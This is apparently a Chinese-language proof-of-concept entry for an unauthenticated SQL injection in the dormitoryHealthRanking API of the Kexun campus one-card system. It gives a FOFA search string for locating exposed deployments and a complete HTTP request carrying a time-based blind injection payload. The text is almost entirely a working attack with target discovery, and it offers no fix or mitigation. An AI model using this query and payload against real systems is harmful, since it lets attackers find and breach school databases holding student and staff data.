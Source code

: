 # 科讯一卡通管理系统dormitoryHealthRanking存在SQL注入漏洞

科讯校园一卡通管理系统dormitoryHealthRanking存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```yaml
body="http://www.ahkxsoft.com/" && body="一卡通登录"
```

## poc

```yaml
GET /api/dormitoryHealthRanking?building=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

